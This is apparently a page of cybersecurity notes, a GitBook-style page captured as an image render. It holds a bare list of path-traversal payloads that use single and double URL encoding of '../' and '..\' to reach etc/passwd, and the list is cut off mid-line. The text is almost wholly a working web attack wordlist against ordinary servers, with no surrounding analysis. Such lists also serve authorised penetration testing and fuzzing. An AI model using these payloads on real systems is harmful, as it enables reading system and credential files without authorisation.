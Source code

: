 ```txt
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
..%255c..%255c..%255c..%255c..%255c..%255c..%255cetc%255cpasswd
%2e%2e%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255cetc%255cpasswd
%2e%2e%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2fetc%2fpasswd
..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255cetc%255cpasswd
%2e%2e%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f


```

![](gitbook/cybersecurity/images/Pasted%20image%2020250502231125.png)
